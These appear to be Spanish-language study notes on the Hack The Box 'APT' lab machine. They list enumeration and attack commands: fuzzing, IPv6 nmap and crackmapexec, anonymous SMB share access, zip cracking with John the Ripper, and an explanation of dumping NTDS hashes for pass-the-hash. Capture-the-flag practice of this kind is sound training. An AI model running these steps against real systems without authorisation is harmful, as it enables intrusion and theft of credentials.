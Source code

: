 # HTB APT Machine

CURL para  ver las cabeceras

```
curl -s -X GET http://10.129.96.60 -I
s Silent 
X indicar tipo de peticion 
I solo para mostrar las cabeceras

```

WFUZZ puedes usar una lista de extenciones definidas 

```
wfuzz -c --hc=404 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,zip-php-asp-aspx http://127.0.0.1:8081/FUZZ.FUZ2Z

```


# ¿Qué es msrpc.exe en mi computador?

> Es la implementación de Microsoft (MS) del RPC (remote procedure call), el cual es parte del subconjunto POSIX de Windows.

# IOXIDResolver port 135

Ayuda a ver si se puede obtener la ipv6 de la maquina por e


```
python3 IOXIDResolver.py -t 10.129.96.60

Ver si la ipv6 responde

ping6 dead:beef::b885:d62a:d679:573f

```

# NMAP IPv6

```
nmap -sC -p53,80,88,135,389,445,464,593,636,5985,9389,47001,49664,49665,49666,49667,49669,49670,49673,49689,52968 -6 dead:beef::b885:d62a:d679:573f -oN targetedipv6
```
# Crackmapexec ipv6

Para usar esta herramienta solo pasa la ipv6 y listo

```
crackmapexec smb dead:beef::b885:d62a:d679:573f

```


# Puertos Abiertos 

Los servicios que se pueden ver y que quiza seria bueno memorizar son:

```
88 Kerberos
389 LDAP
445 SMB
5985 Servicio de Administracion remota de Windows( Si se tuviera credenciales validas podriamos suponer que el usario
es parte del grupo " Remote Managment Users y podriamos conectarnos con evilwinrm) igual se puede hacer con cme

```

## 445 

Para enlistar los recursos compartidos usamos 

### cme

```
crackmapexec smb dead:beef::b885:d62a:d679:573f --shares

```

Con el comando anterior no arroja nada pero probaremos con smbclient

### smbclient

Nombre de la maquina apt 

```
smbclient -L apt/htb.local -N  

```

### Conectarse a un recurso compartido

```
smbclient //htb.local/backup -N
dir 
get archivoadescargar.zip
```

Usando el comando file para ver si realmente es un zip ( recuerda usa los files signatures) para saber el tipo de archivo

```
file backups.zip

```

## 7z Checar que hay dentro 

Para checar dentro usa la "l" si te das cuenta como los comandos que se le pasan a 7z no tienen -

```
7z l backup.zip 

```

Lista lo que hay dentro.

Para descifrar un password primero se saca el hash 

```
zip2john

```
 Ese hash se le pasa a John The Ripper
 
 ```
 john -w:/usr/share/wordlists/rockyou.txt hash
 
 ```
 

# NTDS DUMPEAR hashes 

> Un controlador de dominio es miembro de un único sitio y se representa en el sitio mediante un objeto de servidor Active Directory Domain Services (AD DS). Cada objeto de servidor tiene un objeto NTDS Configuración que representa el controlador de dominio de replicación en el sitio

Cuando se compromete un dominio  se suele dumpear el contenido de NTDS ( en local se dumpea la SAM y el SYSTEM para listar los hashes de los usuarios a nivel local con esos hashes puedes aplicar pass the hash en caso de que aplique y que sea priviligeado el usuario).

Pero volvemos cuando comprometes un controlador de dominio puedes dumpear el NTDS.dir y el SYSTEM para dumpear todos los hashes de los usuarios del directorio activo






















